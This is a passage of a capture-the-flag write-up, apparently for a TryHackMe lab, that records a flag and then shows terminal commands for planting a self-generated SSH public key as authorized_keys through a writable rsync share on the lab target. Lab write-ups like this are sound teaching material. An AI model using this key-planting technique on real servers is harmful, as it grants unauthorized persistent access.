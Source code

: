 
Our Third flag is "*THM{da7c20696831f253e0afaca8b83c07ab}*"



## ssh-keygen

since we have sync our directories with machine we can try to login in machine by creating ssh login credentials.

We know that public key of ssh login is save in .ssh/authorized_keys.
We can create our own ssh key and send it to server by the name of authorized_keys .
and after use private key to login in server.

~~~~┌──(root㉿kali)-[~/files/sys-internal/.ssh]
└─# ssh-keygen 
Generating public/private rsa key pair.
Enter file in which to save the key (/root/.ssh/id_rsa): id
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in id
Your public key has been saved in id.pub
The key fingerprint is:
SHA256:Jr3ovfwnV63IuZgX3/lJ7toV6rZaEVXZRspWhPEHAE0 root@kali
The key's randomart image is:
+---[RSA 3072]----+
|          .+E.o*O|
|            ..o*o|
|             .+.o|
|       .     .. .|
|      . S    . o |
|       + .  . + o|
|      . .  . O +o|
|     . o  .oX.*.+|
|      . +o+*+=+=o|
+----[SHA256]-----+
                                                                                                                                                                                                                                              
┌──(root㉿kali)-[~/files/sys-internal/.ssh]
└─# ls -la
total 20
drwxrwxr-x  2 sage23 sage23 4096 Jun 16 19:52 .
drwxr-xr-x 18 sage23 sage23 4096 Jun 16 19:51 ..
-rw-------  1 root   root   2590 Jun 16 19:52 id
-rw-r--r--  1 root   root    563 Jun 16 19:52 id.pub
-rwxrwxrwx  1 root   root   2590 Jun 16 00:57 .id_rsa
                                                                                                                                                                                                                                                                                                                                                                
┌──(root㉿kali)-[~/files/sys-internal/.ssh]
└─# mv id.pub authorized_keys              
                                                                                                                                                                                                                                              
┌──(root㉿kali)-[~/files/sys-internal/.ssh]
└─# ls -la
total 20
drwxrwxr-x  2 sage23 sage23 4096 Jun 16 19:53 .
drwxr-xr-x 18 sage23 sage23 4096 Jun 16 19:51 ..
-rwxrwxrwx  1 root   root    563 Jun 16 19:52 authorized_keys
-rw-------  1 root   root   2590 Jun 16 19:52 id
-rwxrwxrwx  1 root   root   2590 Jun 16 00:57 .id_rsa
┌──(root㉿kali)-[~/files/sys-internal/.ssh]
└─# rsync -ahv --no-o --no-g ~/files/sys-internal/.ssh/authorized_keys rsync://rsync-connect@10.10.10.230/files/sys-internal/.ssh/authorized_keys
Password: 
sending incremental file list
authorized_keys

sent 99 bytes  received 41 bytes  3.84 bytes/sec
total size is 563  speedup is 4.02
~~~~